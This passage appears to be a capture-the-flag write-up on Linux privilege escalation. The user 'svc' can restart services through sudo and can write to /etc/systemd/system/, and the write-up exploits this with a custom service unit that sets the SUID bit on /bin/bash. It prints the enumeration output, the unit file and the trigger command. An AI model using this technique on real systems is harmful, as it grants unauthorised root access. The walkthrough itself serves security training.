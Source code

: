 # Privesc

## systemctl with sudo

Obtained shell as user "svc" and user can run `/usr/bin/systemctl` "restart" on any service.
```bash
svc@encoding:~$ sudo -l
Matching Defaults entries for svc on encoding:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on encoding:
    (root) NOPASSWD: /usr/bin/systemctl restart *
```

* In Linux, service files are typically located in the `/etc/systemd/system/` directory or in subdirectories of this directory.

and user "svc" has extended ACL permission of write and execute on `/etc/systemd/system/` directory.
```bash
svc@encoding:~$ getfacl /etc/systemd/system/
getfacl: Removing leading '/' from absolute path names
# file: etc/systemd/system/
# owner: root
# group: root
user::rwx
user:svc:-wx
group::rwx
mask::rwx
other::r-x
```

So we can create a `.service` file and run it with `/usr/bin/systemctl` using sudo -> https://gtfobins.github.io/gtfobins/systemctl/
```conf
[Unit]
Description=My System Service
After=network.target

[Service]
Type=simple
ExecStart=chmod +s /bin/bash

[Install]
WantedBy=multi-user.target
```

```bash
sudo /usr/bin/systemctl restart privesc
```


